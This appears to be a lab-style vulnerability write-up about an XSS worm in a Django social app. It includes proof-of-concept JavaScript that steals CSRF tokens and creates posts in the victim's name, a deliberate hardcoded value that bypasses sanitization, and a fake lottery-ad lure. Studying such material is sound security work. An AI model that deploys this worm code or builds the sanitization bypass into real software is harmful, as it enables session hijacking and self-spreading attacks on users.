

# 2024-12-06 - Cross-Site Scripting

## 1. **Overview**

Cross-Site Scripting (XSS) is a security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. These scripts execute in the context of the victim’s browser and can steal sensitive information, manipulate the DOM, or propagate malware.

## 2. **Description**

A critical XSS vulnerability exists in the application's post display and ad handling mechanisms. This flaw exploits unsanitized user inputs and cookies, allowing attackers to manipulate stored sessions and execute malicious scripts in an uncontrolled environment.

### 2.1 **Observations**

- **Post Rendering**: Posts displayed on the feed (`home.html`) may include malicious scripts in their captions, enabling XSS attacks upon user interaction.

- **Ad Page**: The ad page (`ad.html`) embeds an XSS payload using JavaScript that automatically executes when a user clicks a button. This payload hijacks the user’s session and creates a new malicious post in their name.

- **Obfuscated Scripts**: Although requests can be observed in the browser’s network tab, the scripts exploiting the XSS vulnerability are obfuscated, adding an extra layer of complexity.



#### 2.1.1 **Session-Based Worm Propagation**

- **LocalStorage Values (`SESSIONID`)**: These values track infection states. Session tokens such as `584e0ae6dcd0dc93ce82490c0d8d3bfc819ed87c`, `2d6cfd5ae2dfbf26ec2a2f26759306fdb54cc1e4`, and `ae0b6badeb338b59cda2135ed783c28beaf6d622` are used to track states like `new_entry`, `entered_contact`, and `infected`, respectively. These tokens are also used to disable the upload flag, bypassing input sanitization.

- **Payload Behavior**: The payload determines its action—displaying an image, spreading the worm, or infecting a new user—based on these infection states.

- **Payload Delivery**: Scripts embedded in posts dynamically create malicious posts and exploit cookies and CSRF tokens to propagate further.

## 3. **Impact**

### 3.1 **Propagation of Worm Script**

The XSS vulnerability enables the malicious worm to:
- Infect every user who interacts with infected posts or ads.
- Automatically create posts with malicious content, maintaining the infection cycle.
- Display a new ad every time the page is loaded or the user interacts with a malicious post, lasting for five seconds.

### 3.2 **User Data and CSRF Token Hijacking**

The payload extracts CSRF tokens, which can be used to:
- Forge requests on behalf of users.
- Steal sensitive session data stored in cookies or local storage.

## 4. **Proof of Concept**

### **Ad Page**

The ad page simulates a fake lottery-winning page where the user is prompted to click a button. This button hijacks the user’s CSRF token and creates a new post using the `new_entry` cookie.

```javascript
function createHiddenPost(caption) {
    const formData = new FormData();
    formData.append("uphoto", "");
    formData.append("caption", caption);
    formData.append("sha", "584e0ae6dcd0dc93ce82490c0d8d3bfc819ed87c");

    fetch("/upload", {
        method: "POST",
        body: formData,
        headers: {
            "X-CSRFToken": getCSRFToken(),
        },
    });
}

function getCSRFToken() {
    const cookies = document.cookie.split(";");
    for (let cookie of cookies) {
        const [key, value] = cookie.trim().split("=");
        if (key === "csrftoken") {
            return value;
        }
    }
    return null;
}
```

The correct `new_entry` cookie allows users to bypass input sanitization and submit scripts as input.

```python
if image:
    validate_image(image)

if sha != "584e0ae6dcd0dc93ce82490c0d8d3bfc819ed87c":
    caption = bleach.clean(caption, strip=True)

new_post = Post.objects.create(user=user, image=image, caption=caption)
new_post.save()
```

### **Home Page**

On the homepage, whenever an infected post is detected and the user’s cookie is `new_entry`, an ad is displayed, the session cookie is hijacked, and a new infected post is created to propagate the worm to other users.

```javascript
if (session === "584e0ae6dcd0dc93ce82490c0d8d3bfc819ed87c" || !session) {
    // Do nothing
} else {
    displayImage();
    createHiddenPost(text + script);
    localStorage.setItem("SESSIONID", "ae0b6badeb338b59cda2135ed783c28beaf6d622");
}
```

## 5. **References**

- <https://owasp.org/www-community/attacks/xss>

- <https://medium.com/@trixiahorner/creating-a-cross-site-scripting-worm-a-seed-lab-project-49076b7a8d03>

- <https://docs.djangoproject.com/en/5.1/topics/security/#cross-site-scripting-xss>

- <https://obfuscator.io>
